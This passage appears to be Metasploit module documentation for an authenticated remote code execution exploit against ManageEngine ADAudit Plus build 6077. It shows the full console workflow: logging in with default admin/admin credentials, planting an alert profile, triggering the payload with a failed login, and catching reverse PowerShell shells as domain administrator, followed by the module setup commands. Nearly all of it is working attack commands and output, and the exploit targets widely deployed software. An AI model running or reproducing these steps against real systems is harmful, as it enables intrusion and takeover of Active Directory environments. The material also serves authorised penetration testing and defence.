 ```
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 6077
[*] Attempting to create an alert profile
[+] Successfully created alert profile fw4hKcxDG
[*] Attempting to trigger the payload via an authentication attempt for domain DAFOREST using incorrect credentials.
[*] Received expected reply when trying to trigger the payload. Let's hope we get a shell...
[*] Powershell session session 2 opened (192.168.204.128:4444 -> 192.168.204.132:62845) at 2023-05-04 19:42:57 -0500
[*] Powershell session session 1 opened (192.168.204.128:4444 -> 192.168.204.132:62844) at 2023-05-04 19:42:57 -0500
[*] Attempting to delete alert profile fw4hKcxDG
[+] Successfully deleted alert profile fw4hKcxDG

PS C:\Program Files\ManageEngine\ADAudit Plus\bin> whoami
daforest\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin> ^X^Z
Background session 2? [y/N]  y
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > sessions

Active sessions
===============

  Id  Name  Type                Information                      Connection
  --  ----  ----                -----------                      ----------
  1         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.132:62844 (192.168.204.132)
  2         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.132:62845 (192.168.204.132)

msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) >
```

### ManageEngine ADAudit Plus build 6077 running on Windows Server 2022 - Meterpreter Payload
```
msf6 > use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set RHOSTS 192.168.204.132
RHOSTS => 192.168.204.132
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set LHOST 192.168.204.128
LHOST => 192.168.204.128
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > show options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
PASSWORD     admin                       yes       Password to authenticate with
Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS       192.168.204.132             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
RPORT        8081                        yes       The target port (TCP)
SSL          false                       no        Negotiate SSL/TLS for outgoing connections
TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
USERNAME     admin                       yes       Username to authenticate with
VHOST                                    no        HTTP server virtual host
```